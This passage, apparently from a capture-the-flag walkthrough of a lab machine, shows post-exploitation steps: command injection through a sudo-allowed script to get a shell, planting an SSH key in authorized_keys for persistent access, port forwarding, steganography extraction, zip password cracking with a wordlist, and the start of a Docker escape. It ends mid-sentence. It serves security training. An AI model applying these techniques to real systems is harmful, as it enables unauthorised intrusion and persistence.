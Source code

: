 #### SSH'ing In

We attempt to SSH into the server using the MD5 password above but that doesn't work. We do know that we can run that one script file AS the `apaar` account though. So, via your reverse shell above, run:

```bash
sudo -u apaar /home/apaar/.helpline.sh
```

It prompts you for a name; you can put anything for that. Then it prompts you for a message. That should be: `/bin/bash`

You will now have a prompt running as `apaar`. So, you can inject your `~/.ssh/id_rsa.pub` public key into `apaar`'s `authorized_keys` files so that you can SSH in as `apaar` without being prompted for an SSH password. So, while we are running as `apaar`, run something like:

```bash
echo "ssh-rsa AAAAB3Nza<--SNIP-->udTRuFA8= user@example.com" >> /home/apaar/.ssh/authorized_keys
```

Where those contents would be your own public key from `~/.ssh/id_rsa.pub` on your workstation. If that file does not exist, run `ssh-keygen` and take all of the defaults (and you shouldn't set a password, in this particular case).

Finally, you can now `ssh apaar@<machine-ip>` and you should not be prompted for a password. You now have a proper SSH prompt running as `apaar`.


## Privilege Escalation

This is a bit unrealistic and convoluted, but I suppose it is a good reinforcement of these skills that we learn! Here is the summary of the kill-chain to get privilege escalation:

1. Run `netstat -tupln` see we're hosting a site on `localhost:9001`
2. Use `ssh -L` port redirection to re-host that website locally on our workstation.
3. Use `apaar`'s database username and password to log in to this website.
4. Grab the hacker picture. Run: `steghide extract -sf ./hacker-with-laptop_23-2147985341.jpg` and it extracts a `backup.zip`
5. Run: `fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt ./backup.zip` to try to crack the ZIP password.
6. Run: `unzip ./backup.zip`, use the password you just found to reveal: `source_code.php`.
7. We see this references uses `anurodh` and a password that is base64-encoded.
8. Run: `echo "password" | base64 -d` to base64-decode the password to clear-text.
9. Now we can log in as this other user. We run: `su anurodh` and use the password from above.

Also see: [backup.zip](backup.zip), [hacker-with-laptop_23-2147985341.jpg](hacker-with-laptop_23-2147985341.jpg), and [source_code.php](source_code.php)

Let me stop and highlight this next part, because it's pretty interesting!

### Docker Filesystem Breakout / Escape

This user `anurodh` doesn't have any additional `sudo` privilege and `linpeas` didn't find much. However, `anurodh` does have privileges to use Docker. Docker containers run in a "namespace" within Linux. When a container is running as `root`, there are potential ways to jump over that namespace and into the host machine. If we run `docker images`, we can see that have an Alpine Linux image. This means we can try:
